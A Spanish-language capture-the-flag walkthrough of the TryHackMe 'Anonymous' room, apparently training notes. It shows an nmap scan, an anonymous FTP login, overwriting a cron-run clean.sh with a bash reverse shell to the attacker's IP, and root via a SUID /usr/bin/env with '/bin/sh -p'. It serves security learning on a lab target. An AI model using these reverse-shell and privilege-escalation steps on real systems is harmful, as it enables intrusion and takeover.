 # Ejercicio Práctico – Explotación FTP login Anonymous + Escalada de Privilegios Binarios SUID

Maquinas que vamos a utilizar **Kali Linux y Anonymous**

[https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)

```bash
ifconfig
```

![image.png](./imagenes/image%2048.png)

Mi IP: 10.21.166.149

```bash
ping -c 1 10.10.47.179 
```

![image.png](./imagenes/image%2049.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.10.47.179
```

![image.png](./imagenes/image%2050.png)

`21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.0.8 or later`

`22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

`139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`

`445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)`

- Entramos en el FTP aprovechando que tiene habilitada la entrada **anonymous**
    
    ```bash
    ftp 10.10.47.179
    ```
    
    ![image.png](./imagenes/image%2051.png)
    
    `ls`
    
    ![image.png](./imagenes/image%2052.png)
    

`cd scripts`

`ls`

![image.png](./imagenes/image%2053.png)

- Mirándolo así da que pensar que el archivo [clean.sh](./imagenes/http://clean.sh) se ejecuta de forma automatizada. Nos descargamos el archivo a nuestra maquina para examinarlo y nos salimos del FTP.
    
    `get clean.sh`
    
    `exit`
    
    ![image.png](./imagenes/image%2054.png)
    

- Miramos el contenido de [clean.sh](./imagenes/http://clean.sh) mediante **cat** para entender lo que hace.
    
    ```bash
    cat clean.sh
    ```
    
    ![image.png](./imagenes/image%2055.png)
    
    La explicación rápida seria que este archivo se ejecuta cada cierto tiempo para hacer limpieza de Logs del sistema.
    
- Vamos a **crear un clean.sh malicioso** y lo subiremos a la maquina.
    - editamos clean.sh y eliminamos su contenido y lo vamos a sustituir por el de una reverse shell.
        
        ```bash
        nano [clean.sh](./imagenes/http://clean.sh) 
        ```
        
        `#!/bin/bash
        
        bash -i >& /dev/tcp/10.21.166.149/443 0>&1`
        
        ![image.png](./imagenes/image%2056.png)
        
- Volvemos a entrar en el FTP.
    
    ```bash
    ftp 10.10.47.179 
    ```
    
    ![image.png](./imagenes/image%2057.png)
    
    - Nos movemos a la carpeta scripts
        
        `cd scripts`
        
        `ls`
        
        ![image.png](./imagenes/image%2058.png)
        
    - Subimos el archivo modificado a la maquina victima. Y salimos del FTP
        
        `put clean.sh`
        
        ![image.png](./imagenes/image%2059.png)
        
        ![image.png](./imagenes/image%2060.png)
        
        Nos sustituye el archivo original por el nuestro.
        
        `exit`
        

- Nos ponemos a la escucha por el puerto 443 y veremos que después de un rato tendríamos la conexión.
    
    ```bash
    nc -nlvp 443
    ```
    
    ![image.png](./imagenes/image%2061.png)
    
    - Hacemos un tratamiento de la TTY
        
        `script /dev/null -c bash`
        
        `CTRL+Z`
        
        ![image.png](./imagenes/image%2062.png)
        
        ```bash
        stty raw -echo; fg
        ```
        
        `reset xterm`
        
        ![image.png](./imagenes/image%2063.png)
        
        `export TERM=xterm`
        
        `export SHELL=bash`
        
        ![image.png](./imagenes/image%2064.png)
        
    - Vamos a enumerar dentro de la maquina binarios vulnerables SUID.
        
        `find / -perm -4000 2>/dev/null`
        
        ![image.png](./imagenes/image%2065.png)
        
    - Usamos la pagina de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para probar cual de ellos es vulnerable. En mi caso seria **/usr/bin/env**
        
        ![image.png](./imagenes/image%2066.png)
        
        - Probamos **env /bin/sh -p**
            
            `/usr/bin/env /bin/sh -p` 
            
            ![image.png](./imagenes/image%2067.png)
            
            `/usr/bin/env`: La ruta absoluta que nos aparece al buscar con find
            
            `/bin/sh -p`: código que hemos encontrado en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/).
            
        - Miramos quienes somos y veos que somos root.
            
            `whoami`
            
            ![image.png](./imagenes/image%2068.png)